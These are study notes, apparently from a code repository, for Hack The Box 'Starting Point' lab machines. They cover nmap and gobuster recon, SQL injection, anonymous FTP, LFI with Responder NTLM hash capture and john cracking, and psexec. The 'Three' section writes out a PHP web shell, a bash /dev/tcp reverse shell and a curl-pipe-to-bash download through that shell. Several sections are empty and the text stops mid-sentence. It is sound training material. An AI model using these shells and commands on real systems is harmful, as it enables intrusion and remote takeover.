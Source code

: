 # Starting Point
## Commands
* *sudo nmap -sC -sV IPADDRESS*: Scans the IP address for open ports and gives information about the version and runs various scripts
* *gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u IPADDRESS/URL*: Used to enumrate directories and files.


  
## Appointment
* Structured query language (SQL) is a programming language for storing and processing information in a relational database.
* SQL Injection is a common way of exploiting web pages that use SQL Statements that retrieve and store user input data.
* *#* is used to comment a line in SQL.
* *'* is used to end the string in SQL.

## Sequel
* MariaDB (TCP 3306) is a community-developed, commercially supported fork of the MySQL.
* *mysql -h IPADDRESS -u USER* is the command used to connect to a database.
* SHOW databases; : Prints out the databases we can access.
* USE DBNAME; : Set to use the database named DBNAME.
* SHOW tables; : Prints out the available tables inside the current database.
* SELECT * FROM TABLE; : Prints out all the data from the table TABLE.

## Crocodile
* File Transfer Protocol (FTP) (TCP Port 21 & 22): it is a network protocol for transmitting files between computers over Transmission Control Protocol/Internet Protocol (TCP/IP)
* *anonymous* user can be used to log in to FTP when you don't have an account.
* *ftp IPADDRESS* is the command used to connect through ftp.
* *get FILENAME* is the command used to download a file in a ftp session.
* *anonymous* is the user used to login to an ftp session without a password.

## Responder
* Name-Based Virtual hosting is a method for hosting multiple domain names (with separate handling of each name) on a single server.
* The web server checks the domain name provided in the Host header field of the HTTP request and sends a response according to that.
* The */etc/hosts* file is used to resolve a hostname into an IP address & thus we will need to add an entry in the */etc/hosts* file for this domain to enable the browser to resolve the address for URL.
* LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not intended to be an option for this application.
* RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTP etc.
* *../WINDOWS\System32\drivers\etc\hosts* is used usally to validate LFI vulnerability
* New Technology Lan Manager (NTLM)
  - is a collection of authentication protocols created by Microsoft. It is a challenge-response authentication protocol used to authenticate a client to a resource on an Active Directory domain.
  - It is a type of single sign-on (SSO) because it allows the user to provide the underlying authentication factor only once, at login.
  - The Process:
    1. The client sends the user name and domain name to the server.
    2. The server generates a random character string, referred to as the challenge.
    3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the server.
    4. The server retrieves the user password (or equivalent)
    5. The server uses the hash value retrieved from the security account database to encrypt the challenge string. The value is then compared to the value received from the client. If the values match, the client is authenticated.

* In the PHP configuration file php.ini , "allow_url_include" wrapper is set to "Off" by default, indicating that PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. 
* However, even if allow_url_include and allow_url_fopen are set to "Off", PHP will not prevent the loading of SMB URLs.
* Responder can do many different tasks in this case it will set up a malicious SMB server. When the target machine attempts to perform the NTLM authentication to that server, Responder sends a challenge back for the server to encrypt with the user's password.
* *sudo responder -I NETWORKINTERFACE* is used to start a responder session.
* *john -w=/usr/share/wordlists/rockyou.txt HASH.txt* is used to bruteforce the challenge in *HASH.txt*.
* *evil-winrm -i ADDRESS -u USER -p PASSWORD* is used to try and get a session on a windows machine.

## Three
* *Wappalyzer* is used to understand what technologies the website uses.
* *echo "IPADDRESS DOMAIN" | sudo tee -a /etc/hosts* is used to be able to access a virtual host.
* *gobuster vhost -w /usr/sharel/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u URL --append-domain*  is used to enumrate subdomains.
* S3 is a cloud-based object storage service. It allows us to store things in containers called buckets. AWS S3 buckets have various use-cases including Backup and Storage, Media Hosting, Software Delivery, Static Website etc.
* *awscli* is a utility that can be installed on linux and used to access AWS products.
* *aws configure* is used to configure AWS access key, secret access key, etc..
* *aws --endpoint=http:s3.URL s3 ls* is used to list all s3 buckets hosted by the server.
* *aws --endpoint=http://s3.URL s3 ls s3://URL* is used to list objects under specified bucket.
* *echo '<?php system($_GET["cmd"]); ?>' > shell.php* creates a mini php shell.
* *aws --endpoint=http://s3.URL s3 cp FILENAME s3://URL* uploads file to a s3 server.
* *URLshell.php?cmd=COMMAND* is used to use the previously uploaded shell.
* *#!/bin/bash
  bash -i >& /dev/tcp/IPADDRESS/PORTNUMBER 0>&1* Content for a bash reverse shell payload.
* *nc -nvlp PORTNUMBEr* Starts listening on that specified port.
* *python3 -m http.server 8000* Starts a python server (Used to upload the bash reverse shell)
* *URL/shell.php?cmd=curl%20IPADDRESS:8000/shell.sh|bash* used to upload the bash reverse shell.

## Ignition


## Bike


## Funnel


## Pennyworth


## Tactics
* *-Pn* is used as an option when using nmap on a target that block ICMP.
* *smbclient -L IPADDRESS -U USERNAME* To list the shares for IPADDRESS.
* *smbclient \\\\\\\IPADDRESS\\\\SHARENAME -U USERNAME* Is used to connect to a share.
* PsExec is a portable tool from Microsoft that lets you run processes remotely using any user's credentials.
* *python psexec.py USERNAME:PASSWORD@IPADDRESS* is used to get 
